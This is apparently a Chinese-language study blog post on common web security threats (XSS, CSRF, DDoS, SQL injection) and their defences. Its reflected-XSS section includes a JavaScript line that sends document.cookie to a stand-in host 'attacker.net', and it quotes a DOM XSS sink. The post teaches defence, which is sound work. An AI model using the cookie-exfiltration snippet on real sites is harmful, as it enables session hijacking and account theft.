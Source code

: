 ```yaml
---
layout: post
title: Web安全问题
categories: [前端开发]
description: some word here
keywords: Web安全
---
```


随着Web2.0、社交网络、微博等等一系列新型的互联网产品的诞生，基于Web环境的互联网应用越来越广泛，企业信息化的过程中各种应用都架设在Web平台上，Web业务的迅速发展也引起黑客们的强烈关注，接踵而至的就是Web安全威胁的凸显。下文对常见的Web安全问题和防范防范进行学习和总结。

## 跨站脚本攻击(XSS)
### 简介
跨站脚本攻击(Cross Site Scripting)为和层叠样式表(Cascading Style Sheets，CSS)区分开，在安全领域叫做“XSS”。恶意攻击者往Web页面里注入恶意Script代码，当用户浏览这些网页时，就会执行其中的恶意代码，
可对用户进行盗取cookie信息、会话劫持、篡改网页等各种攻击。XSS是常见的Web攻击技术之一，由于跨站脚本漏洞易于出现且利用成本低，所以被OWASP列为当前的头号Web安全威胁。
攻击者一般通过留言、电子邮件或其他途径向受害者发送一个精心构造的恶意URL，当受害者在Web中打开该URL的时候，恶意脚本会在受害者的计算机上执行。
### 分类
#### 反射型XSS
服务器接受客户端的请求包，不会存储请求包的内容，只是简单的把用户输入的数据“反射”给浏览器。比如
```
var i = new Image;
i.src="http://attacker.net/"+document.cookie;
```
访问这个链接则会获取cookie内容。
#### 存储型XSS
这类XSS攻击会把用户输入的数据“存储”在服务器端的数据库中。多发生在富文本编辑器、日志、留言、配置系统等数据库保存用户输入内容的业务场景。即用户的注入脚本保存到了数据库里，
其他用户进行访问涉及到包含恶意脚本的链接都会中招。由于这段恶意的脚本被上传保存到了服务器，这种XSS攻击就叫做“存储型XSS”。
#### 基于DOM的XSS
DOM XSS和反射型XSS、存储型XSS的差别在于DOM XSS的代码并不需要服务器参与，触发XSS靠的是浏览器端的DOM解析。攻击者将攻击脚本注入到DOM结构里，比如```<script>document.write(window.location.search); </script>```
### 防范
#### 对输入进行检查、过滤
不信任任何用户的输入，对每个用户的输入都做严格检查。通过检验输入值的有效性， 当输入值不符合条件时就显示错误消息并促使用户重新输入，在输出的时候，对某些特殊字符进行转义，替换。
例如，在HTML中显示<时，必须按照字符实体引用（Character Entity Reference）将其转义记载为'&lt';。而如果忽略这一步骤直接生成HTML的话，浏览器就会将<解释为标签的开始。
从而就会招致恶意利用此漏洞进行的XSS攻击。
没有用引号括起来的属性值也会导致XSS攻击，空格就意味着属性值的结束，就可以通过插入空格来添加属性，比如onmouseover事件绑定。
然而， 即使属性值都用引号括了起来，但只要"没有被转义，还是会发生 XSS 攻击。所以要对<和"进行转义。
#### 输出编码
服务器端输出到浏览器的数据，可以使用系统的安全函数来进行编码或转义来防范XSS攻击。JavaScript的编码方式可以使用JavascriptEncode。

#### 辅助性对策 
给 Cookie添加 HttpOnly属性，该属性能禁止JavaScript读取Cookie值。对Cookie信息进行MD5等算法进行多次散列存放，必要时还要对ip和cookie进行绑定，一旦检测异常，立马让用户重新登录。

## 跨站请求伪造(CSRF)
### 简介
跨站请求伪造(CSRF)可以攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账......造成的问题包括：个人隐私泄露以及财产安全。参考别的博客的一张图，过程如下：
![](/images/web/w12.png)
### 防范
#### 执行重要业务之前，要求用户提交额外的信息。
通过 token 或者 验证码 来检测用户提交
#### 尽量不要在页面的链接中暴露用户隐私信息
对于用户修改删除等操作最好都使用post 操作。
#### 限制验证cookie的到期时间
这些cookie的合法时间越短，黑客利用你的Web应用程序的机会就越小。不过，这个时间越短，用户就越不方便。因此，你需要在安全性和方便性之间进行平衡。避免全站通用的cookie，严格设置cookie的域

## 分布式拒绝服务攻击(DDoS)
### 简介
利用合理的服务请求来占用过多的服务资源，从而使合法用户无法得到服务的响应

### 防范
#### 隐藏服务器的真实IP地址，及时变更
#### 防火墙上放置一份 ACL（访问控制列表)来阻断这些来自这些 IP 的访问
#### 使用高性能的负载均衡软件

## SQL注入
### 简介
把SQL命令插入到Web表单递交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。
### 防范
单引号转义、preparestatement预编译接口